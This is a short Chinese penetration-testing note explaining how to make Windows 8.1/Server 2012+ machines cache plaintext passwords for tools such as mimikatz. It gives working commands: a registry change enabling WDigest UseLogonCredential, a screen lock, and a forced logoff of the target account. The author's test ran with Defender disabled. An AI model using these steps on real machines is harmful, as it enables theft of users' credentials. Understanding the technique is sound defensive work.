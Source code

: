 
<!-- TOC -->

- [前言](#前言)
- [抓不到的原因](#抓不到的原因)
- [解决该问题的原理](#解决该问题的原理)
- [解决该问题的具体办法](#解决该问题的具体办法)
- [测试环境说明](#测试环境说明)

<!-- /TOC -->
## 前言
&emsp;因项目原因，需重新测试windows server 2012及以上系统的抓明文密码的方法。

## 抓不到的原因
&emsp;从 **windows 8.1 开始** ，微软为了增加系统的安全性，做了一些安全的策略来防止像 mimikatz 或 WCE 这类工具，直接获取明文密码。但是即便如此我们仍然可以有机会获取到明文密码。


## 解决该问题的原理

Windows 8.1 介绍了以下的注册表项，可以用来设置你的 WDigest 密码是否要支持以明文形式，保存在 LSA 内存中：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest\UseLogonCredential`

在 < 8.1 的 windows 版本中，该注册表键值都默认设置为 “1”，也就是说都支持以明文形式保存在 LSA 内存中。从win 8.1开始，如果想获取到明文密码，还需修改目标机器的以下注册表键值为 “1”，cmd命令如下：

`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`


## 解决该问题的具体办法
先利用一切可执行cmd的办法添加注册表，CMD命令如下：
`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f`

然后需要让此注册表生效，可通过锁屏**或**注册目标账号让其重新登陆来达到生效目的。
* **锁屏CMD命令**
`rundll32.exe user32.dll,LockWorkStation` 此命令应用在Console登陆（非RDP登录）情况下。

* **注销目标账号**
`query user` `logoff ID` 此命令兼容各种情况，但注销在操作的管理员账号，此操作属于高危操作。

## 测试环境说明
笔者测试
* 系统环境
Microsoft Windows Server 2016 Standard 10.0.14393
* 杀软情况
Windows defender已关闭
* 登陆情况
    + 远程登陆断开状态添加注册后登陆（抓明文失败）
    + 远程登陆状态注销目标账号后登陆（抓明文成功）

